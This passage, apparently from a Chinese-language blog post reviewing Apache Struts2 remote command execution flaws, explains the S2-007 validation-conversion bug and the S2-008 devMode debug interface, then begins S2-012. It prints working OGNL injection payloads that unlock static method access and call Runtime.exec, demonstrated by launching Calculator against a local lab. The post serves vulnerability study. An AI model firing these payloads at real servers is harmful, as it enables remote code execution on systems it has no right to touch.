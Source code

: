 然后配置有 `UserAction-validation.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

当用户提交 `age` 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload：

    ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '

![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/4.png)

### S2-008

> 官方链接：[https://struts.apache.org/docs/s2-008.html](https://struts.apache.org/docs/s2-008.html)
> 
> 影响版本：Struts 2.1.0 - Struts 2.3.1
> 
> 修复摘要：添加参数名和 Cookie 名白名单 acceptedParamNames = "[a-zA-Z0-9\.][()_']+";

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 `devMode` 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

例如在 `devMode` 模式下直接添加参数 `?debug=command&expression=<OGNL EXP>` 会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

    http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)

![]({{ site.url }}/public/img/article/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/5.png)

### S2-012

> 官方链接：[https://struts.apache.org/docs/s2-012.html](https://struts.apache.org/docs/s2-012.html)
>
> 影响版本：Struts 2.0.0 － Struts 2。3.13
> 
> 修复摘要：默认禁用 OGNLUtil 类的 OGNL 表达式执行
